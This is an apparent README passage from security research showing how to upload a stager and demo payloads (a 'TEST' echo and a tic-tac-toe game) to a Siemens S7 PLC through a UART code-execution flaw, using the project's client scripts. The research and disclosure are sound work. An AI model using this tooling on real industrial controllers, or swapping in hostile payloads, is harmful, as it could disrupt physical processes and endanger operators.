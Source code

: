 ```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh start.sh
```

### DEMO 1: Upload and executing stager and test payloads 

Now, we can use our client utility. Open a new console window (without closing the console which runs `start.sh`), and type the following command for uploading the stager and test payload to the UART: 

```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-delay=1 test
```

The `--powersupply-delay` is provided for Cold-boot style firmware dumping (we do not use it at this stage but providing this item is required). The argument `test` uses the payload in `payloads/hello_world/hello_world.bin` file. This payload literraly just run inside the PLC and send string `TEST` back to the client, thus client knows the code successfully executed inside the PLC.  






### DEMO 2: Upload and execution Tic-tac-toe inside the S7 PLC


In this demo we decided to upload the Tic-tac-toe game to the PLC. The goal of this demo is to demonstrate running more complex form of programs inside the PLC. To upload the game, you need to first compile it: 



```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce/payloads/tic_tac_toe$ make
cc tic_tac_toe.c
cc ../lib/stdlib.c
cc ../lib/print.c
cc ../lib/string.c
cc ../lib/read.c
ld tic_tac_toe.sym
strip tic_tac_toe
objcopy tic_tac_toe.ihex
objcopy tic_tac_toe.bin
```

Now we must use the tictactoe mode of our script utility as it allows us to interact with the PLC and have stream of input/output:


```console
research@ali-Plex-9:~/SiemensS7-Bootloader/uart_rce$ sh client.sh --switch-power --powersupply-delay=1 tictactoe --payload=payloads/tictactoe/build/tictactoe.bin
```

Note that the tictactoe mode, allow us to use alternative payloads using `--payload` argument. So we are not bounded to only use the tictactoe.bin payload. 
